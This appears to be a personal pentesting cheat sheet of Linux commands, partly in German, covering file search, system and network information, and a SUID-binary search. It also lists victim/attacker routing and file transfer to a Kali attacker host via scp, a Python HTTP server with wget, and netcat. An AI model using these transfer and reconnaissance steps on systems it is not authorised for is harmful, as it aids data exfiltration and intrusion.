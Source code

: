 ## Useful Commands I don't know:
### Files:

```bash
# Klartextsuche
find / -iname "test" -type f/d/l/s
```

```bash
# Pipes:
# ------
# Überschreibung:
echo "hey" > test.txt
# Anhängen:
echo "hey" >> test.txt
```

```bash
# Suche in Dateien
grep -i "text" .bash_history
```

```bash
# Unterschied zwischen 2 Dateien
comm test_1.txt test_2.txt
vim -d
```

```bash
# Ausgabe ersten Zeilen
head -n 3
```

```bash
# Ausgabe letzten Zeilen
tail -n 3
```

```bash
# Find files with SUID bit set:
find / -user root -perm -4000 -print 2>/dev/null | head -20
```

### Movement:
```bash
# Save temp a folder location
pushd

# Move around
cd .. (And so on)

# When you want to go back
popd
```

### System information:

```bash
# Finden von Programmen
which

# Aktueller User
whoami
```

```bash
# Kernel Version
uname -a

cat /etc/issue
```

```bash
# Rechte von user
id
```
### Network information

```bash
# See open ports
netstat -alnu
```

Add Gateway (if subnet is not reachable). The host 192.168.1.2 can reach 192.168.1.1 (The proxied Webserver) but not 192.168.2.0/24 and therefore not 192.168.2.2 (The machine):
```bash
# Victim:
ip route add 192.168.1.2 via 192.168.1.1

# Attacker:
ip route add 192.168.2.2 via 192.168.1.1
```

```bash
# See all open connections
lsof -ai -p "$pid"
```

```bash
# Find IP for Domain
nslookup domain.local

whois domain.local
```
## File Transfer:

#### SCP:

Step 1: Enable SSH on Attacker
```bash
sudo apt update

sudo apt install openssh-server

sudo systemctl start ssh

sudo systemctl enable ssh
```

Step 2: Download file via SCP:
```bash
scp file.txt kali@192.168.1.2:/home/kali
```


(Upload):
```bash
scp kali@192.168.1.2:/home/kali/file.txt
```

#### Python:

Step 1: HTTP Server on Attacker (or victim if upload):
```bash
python -m http.server 9000
```

Step 2: Download file:
```bash
wget 192.168.1.2:9000/file.txt
```

#### NC:

Step 1: Create listener on receiver:
```bash
nc -lvnp 4444 > file.txt
```

Step 2: Send file:
```bash
nc 192.168.1.2 4444 < file.txt
```